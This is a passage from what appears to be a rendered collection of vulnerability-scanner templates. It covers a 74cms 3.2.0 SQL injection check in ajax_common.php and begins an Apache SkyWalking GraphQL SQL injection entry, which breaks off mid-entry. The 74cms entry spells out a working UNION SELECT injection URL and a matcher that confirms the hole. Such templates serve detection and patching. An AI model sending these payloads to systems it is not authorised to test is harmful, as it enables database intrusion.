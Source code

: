 ### Matchers

**Type - word**

- part - body
- words
  1. c8c605999f3d8352d7bb792cf3fdb25

---

# 74cms - ajax_common.php SQL Injection

## Description

- SQL Injection in 74cms 3.2.0 via the query parameter to plus/ajax_common.php.

- severity - critical
- tags - cve,cve2020,74cms,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/plus/ajax_common.php?act=hotword&query=aa%錦%27%20union%20select%201,md5({{num}}),3%23%27

### Matchers

**Type - word**

- part - body
- words
  1. {{md5({{num}})}}

---

# SkyWalking SQLI

## Description

- When using H2/MySQL/TiDB as Apache SkyWalking storage and a metadata query through GraphQL protocol, there is a SQL injection vulnerability which allows access to unexpected data. Apache SkyWalking 6.0.0 to 6.6.0, 7.0.0 H2/MySQL/TiDB storage implementations don't use the appropriate way to set SQL parameters.

- severity - high
- tags - cve,cve2020,sqli,skywalking

## Requests
